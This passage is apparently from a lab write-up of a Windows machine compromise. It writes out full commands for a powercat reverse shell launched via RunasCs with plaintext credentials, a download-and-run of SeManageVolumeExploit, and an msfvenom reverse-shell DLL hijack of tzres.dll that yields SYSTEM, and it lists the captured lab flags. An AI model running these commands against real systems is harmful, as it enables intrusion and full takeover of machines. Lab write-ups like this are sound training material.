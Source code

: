 - Uploaded `Invoke-RunasCs.ps1`, started netcat listener on port `5555` then ran `Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/powercat.ps1');powercat -c 192.168.45.178 -p 5555 -e cmd"` for reverse shell as `svc_mssql` - caught reverse shell as `svc_mssql`
![[Pasted image 20241105135714.png]]
- Ran `type C:\Users\svc_mssql\Desktop\local.txt` to print local flag `d075a9b799bbf34764ed55ccd797108d`
![[Pasted image 20241105135834.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `whoami /priv` and identified `SeManageVolumePrivilege` - vulnerable to [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)
![[Pasted image 20241105141646.png]]
## Privilege Escalation vector
- Served `SeManageVolumeExploit.exe` via python and ran `iwr -uri http://192.168.45.178/SeManageVolumeExploit.exe -outfile SeManageVolumeExploit.exe`
![[Pasted image 20241105141841.png]]
- Ran `icacls C:\Windows\System32` - identified full privileges to `C:Windows\System32`
![[Pasted image 20241105142826.png]]
- Ran `msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=6666 -f dll -o tzres.dll` to create reverse shell in `tzres.dll` and uploaded to `C:\Windows\System32\wbem` 
![[Pasted image 20241105143036.png]]
- Started netcat listener on port `6666` and ran `systeminfo` on target to trigger reverse shell - caught reverse shell as `nt authority`
![[Pasted image 20241105143154.png]]
![[Pasted image 20241105143238.png]]
- Ran `type C:\Users\Administrator\Desktop\proof.txt` to print proof flag `46e76431490ebf8ccc7c112f112fcfc2`
![[Pasted image 20241105143348.png]]
---
# Trophy & Loot
`local.txt` = `d075a9b799bbf34764ed55ccd797108d`
`proof.txt` = `46e76431490ebf8ccc7c112f112fcfc2`